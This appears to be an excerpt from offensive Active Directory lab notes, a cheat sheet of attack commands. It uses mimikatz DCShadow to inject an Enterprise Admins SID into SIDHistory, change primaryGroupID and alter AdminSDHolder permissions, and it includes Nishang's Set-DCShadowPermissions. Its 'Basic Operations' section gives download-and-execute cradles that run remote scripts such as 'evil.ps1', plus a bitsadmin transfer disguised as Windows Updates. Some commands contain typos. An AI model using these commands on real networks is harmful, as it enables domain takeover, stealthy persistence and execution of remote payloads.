 - Update Description, SIDHistory and GroupID
    
    ```powershell
    lsadump::dcshadow /object:root01 /attribute:Description /value="Hello from DCShadow"
    
    lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519
    
    lsadump-dcshadow /object:student1 /attribute:primaryGroupID /value:519
    
    lsadump::dcshadow /push
    
    ```
    
- Modify ntSecurityDescriptor for AdminSDHolder to add full control to current user
    
    ```powershell
    (New-Object System.DirectoryServices.DirectoryEntry (("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl
    
    lsadump-dcshadow /object:CN=AdminSDHolder,CN=System,DC=organicsecurity,DC=local /attribute:ntSecurityDescriptor /value:<modified ACL>
    
    ```
    
- Alternatively, we can use Set-DCShadowPermissions from Nishang
    
    ```powershell
      Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose
    
    ```
    

## Basic Operations

    ```powershell
    # Loading powerview locally
    ps> . C:\AD\Tools\PowerView.ps1

    # Loading ActiveDirectory Module (Also works in Constrained Language Mode)
    Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
    Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

    # Loading tools remotely using download and execute cradle
    ps> iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
    ps> iex (iwr 'http://192.168.230.1/evil.ps1' -UseBasicParsing)

    # File Download using windows binary
    bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\User\\Public\\Loader.exe
